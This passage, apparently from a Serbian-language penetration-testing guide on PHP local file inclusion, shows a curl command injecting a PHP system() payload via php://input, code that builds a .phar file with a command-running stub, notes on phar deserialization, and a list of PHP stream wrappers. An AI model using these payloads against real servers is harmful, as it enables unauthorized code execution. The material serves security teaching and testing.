 Navedite svoj payload u POST parametrima:

```bash
curl -XPOST "http://example.com/index.php?page=php://input" --data "<?php system('id'); ?>"
```

### phar://

`.phar` datoteka može se koristiti za izvršavanje PHP koda kada web aplikacija koristi funkcije poput `include` za učitavanje datoteka. PHP kodni odlomak prikazan u nastavku demonstrira kreiranje `.phar` datoteke:

```php
<?php
$phar = new Phar('test.phar');
$phar->startBuffering();
$phar->addFromString('test.txt', 'text');
$phar->setStub('<?php __HALT_COMPILER(); system("ls"); ?>');
$phar->stopBuffering();
```

Za kompajliranje `.phar` datoteke, treba izvršiti sledeću komandu:

```bash
php --define phar.readonly=0 create_path.php
```

Prilikom izvršavanja, biće kreiran fajl pod nazivom `test.phar`, koji potencijalno može biti iskorišćen za eksploataciju ranjivosti lokalnog uključivanja fajlova (LFI).

U slučajevima kada LFI samo vrši čitanje fajlova bez izvršavanja PHP koda unutar njih, kroz funkcije poput `file_get_contents()`, `fopen()`, `file()`, `file_exists()`, `md5_file()`, `filemtime()`, ili `filesize()`, može se pokušati eksploatisati ranjivost de-serijalizacije. Ova ranjivost je povezana sa čitanjem fajlova korišćenjem `phar` protokola.

Za detaljnije razumevanje eksploatacije ranjivosti de-serijalizacije u kontekstu fajlova sa ekstenzijom `.phar`, pogledajte dokument koji je povezan ispod:

[Phar Vodič za Eksploataciju De-serijalizacije](phar-deserialization.md)

{% content-ref url="phar-deserialization.md" %}
[phar-deserialization.md](phar-deserialization.md)
{% endcontent-ref %}

### Više protokola

Proverite više mogućih [**protokola za uključivanje ovde**](https://www.php.net/manual/en/wrappers.php)**:**

* [php://memory i php://temp](https://www.php.net/manual/en/wrappers.php.php#wrappers.php.memory) — Pisanje u memoriju ili u privremeni fajl (nije sigurno kako bi ovo moglo biti korisno u napadu uključivanja fajlova)
* [file://](https://www.php.net/manual/en/wrappers.file.php) — Pristupanje lokalnom fajl sistemu
* [http://](https://www.php.net/manual/en/wrappers.http.php) — Pristupanje HTTP(s) URL-ovima
* [ftp://](https://www.php.net/manual/en/wrappers.ftp.php) — Pristupanje FTP(s) URL-ovima
* [zlib://](https://www.php.net/manual/en/wrappers.compression.php) — Streamovi kompresije
* [glob://](https://www.php.net/manual/en/wrappers.glob.php) — Pronalaženje putanja koje se podudaraju sa obrascem (Ne vraća ništa štampabilno, pa nije zaista korisno ovde)
* [ssh2://](https://www.php.net/manual/en/wrappers.ssh2.php) — Secure Shell 2
* [ogg://](https://www.php.net/manual/en/wrappers.audio.php) — Audio streamovi (Nije korisno za čitanje proizvoljnih fajlova)
